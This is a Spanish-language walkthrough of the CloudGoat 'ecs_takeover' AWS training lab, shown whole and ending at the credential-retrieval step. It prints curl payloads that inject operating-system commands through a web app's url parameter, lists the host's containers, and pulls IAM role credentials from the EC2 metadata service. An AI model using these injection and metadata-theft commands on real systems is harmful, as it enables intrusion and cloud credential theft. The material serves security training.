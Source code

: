 ```yaml
---
description: 'Lab: CloudGoat'
---
```


# ECS\_takeover

## Laboratorio

En este escenario se empieza realizando un pentesting de caja negra contra un aplicativo web alojado en una instancia EC2. Luego de identificar una vulnerabilidad que permite RCE sobre el aplicativo web se abusará del servicio de metadatos de la instancia y del docker. Para posteriormente, comprometer una de las tareas que está corriendo en un cluster al que se tiene acceso por medio de la instancia comprometida.

{% hint style="danger" %}
El desarrollo de este ejercicio puede llegar a consumir recursos económicos dentro de las cuentas de AWS.
{% endhint %}

{% embed url="https://github.com/RhinoSecurityLabs/cloudgoat/tree/master/scenarios/ecs_takeover" %}

<mark style="color:green;">**Objetivo**</mark>: Obtenga acceso al contenedor "bóveda" y recupere la bandera.

### Configuración inicial

Checar instalación de CloudGoad en:

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

Lanzar el escenario con:

```bash
./cloudgoat.py create ecs_takeover
```

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

### Explotación

Al finalizar la preparación del laboratorio se arroja un sito web: [http://ec2-54-236-32-165.compute-1.amazonaws.com/](http://ec2-54-236-32-165.compute-1.amazonaws.com/) el cual contiene un aplicativo como el siguiente:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Luego de ingresar una URL válida como www.google.com se identificó que se puede agregar un parámetro URL sobre el enlace original, y además se ve como el aplicativo web incrusta el código HTML sobre el DOM de la página.

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Realizando una inyección de parámetros se observó que el aplicativo responde comandos de sistema operativo:

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bls+-l"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Haciendo uso de la vulnerabilidad de code injection se puede observar que el aplicativo está corriendo bajo el usuario de root:

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bwhoami"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

Usando el comando env podemos listas las variables de entorno del sito:

<figure><img src="../../../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

Listando las interfaces de red existentes se encontró una interfaz de red docker, lo cual indica el uso de contenedores

```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bip+a+show"
```

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

Listando los contenedores con `docker ps -a` se encontraron los siguientes contenedores:

<figure><img src="../../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

| Contenedor                                                                                 | ID           |
| ------------------------------------------------------------------------------------------ | ------------ |
| ecs-cg-ecs-takeover-ecs\_takeover\_cgidjozev9f9bv-vulnsite-1-vulnsite-bcf8beafe588ccca8a01 | 7bfa57af37b6 |
| ecs-cg-ecs-takeover-ecs\_takeover\_cgidjozev9f9bv-privd-1-privd-a2bfc681b6dcf9d55500       | 64ca7db98975 |
| ecs-agent                                                                                  | aaead8b98f5f |

Se puede generar una rever shell en el sitio y tener mayores capacidades, para fines didácticos solo se va a consumir los metadatos del rol de la instancias ec2 y se procedesa a usar las credenciales de acceso

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bcurl+http://169.254.169.254/latest/meta-data/iam/security-credentials/"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
curl "http://ec2-54-236-32-165.compute-1.amazonaws.com/?url=%3Bcurl+http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ecs-takeover-ecs_takeover_cgidjozev9f9bv-ecs-agent"
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>







